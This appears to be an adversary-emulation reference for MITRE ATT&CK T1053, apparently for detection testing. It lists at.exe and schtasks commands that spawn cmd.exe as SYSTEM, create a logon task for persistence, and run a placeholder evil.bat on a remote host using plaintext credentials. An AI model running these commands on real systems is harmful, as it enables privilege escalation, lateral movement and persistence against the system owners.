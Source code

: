 ## Scheduled Task

MITRE ATT&CK Technique: [T1053](https://attack.mitre.org/wiki/Technique/T1053)

### Utilities such as at and schtasks, along with the Windows Task Scheduler, can be used to schedule programs or scripts to be executed at a date and time

[Examples Of Creating Tasks](https://technet.microsoft.com/en-us/library/cc725744(v=ws.11).aspx#BKMK_create)

## at.exe

Note: deprecated in Windows 8+

### Privileged Escalation

This command can be used locally to escalate privilege to SYSTEM or be used across a network to execute commands on another system.

Input:

    at 13:20 /interactive cmd

Example:

    net use \\[computername|IP] /user:DOMAIN\username password
    net time \\[computername|IP]
    at \\[computername|IP] 13:20 c:\temp\evil.bat

## schtask.exe

### Launch Interactive cmd.exe

Input:

    SCHTASKS /Create /SC ONCE /TN spawn /TR C:\windows\system32\cmd.exe /ST 20:10

Input:

    schtasks /create /tn "mysc" /tr C:\windows\system32\cmd.exe /sc ONLOGON /ru "System"
